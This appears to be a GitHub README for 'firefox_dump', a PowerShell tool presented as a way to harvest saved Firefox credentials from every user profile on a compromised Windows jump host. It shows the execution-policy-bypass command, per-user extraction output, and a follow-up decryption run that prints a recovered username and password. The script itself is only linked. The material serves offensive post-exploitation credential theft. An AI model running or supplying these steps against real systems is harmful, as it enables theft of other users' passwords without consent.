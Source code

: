 # firefox_dump
When trying to gather additional credentials from lets say an Administrator Jump Host, extracting sensitive Mozilla Firefox files is a great approach. Doing this manually is boring and time consuming, especially if there are hundreds of users under `C:\Users`. 

To simplify this I've made a simple PowerShell script, [`firefox_dump.ps1`](https://raw.githubusercontent.com/0xPThree/firefox_dump/main/firefox_dump.ps1), that gathers all sensitive Mozilla Firefox information which can later be decrypted using [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) or similar.

The script should be ran as a high privileged user to gain as much information as possible.

## Example Usage
```powershell
PS C:\tmp> powershell.exe -ExecutionPolicy Bypass .\firefox_extract.ps1
 ___    __   ___  ___  __       __              __
|__  | |__) |__  |__  /  \ \_/ |  \ |  |  |\/| |__)
|    | |  \ |___ |    \__/ / \ |__/ \__/  |  | |
                                      by: 0xPThree

[+] Extracting secrets from 'user1' to: C:\tmp\user1\ljftf853.default-release
[+] Extracting secrets from 'user1' to: C:\tmp\user1\skvrf23a.default
[+] Extracting secrets from 'user2' to: C:\tmp\user2\grg21h5s.default
[-] 'user3' doesn't have any saved passwords in Mozilla Firefox
```

```bash
┌──(void㉿void)-[/opt/firefox_decrypt]
└─$ ./firefox_decrypt.py /tmp/firefox-loot/user1            

Website:   http://localhost:8000
Username: 'dev-user'
Password: 'D3velopm3ntM@st3rK3y*!'
```
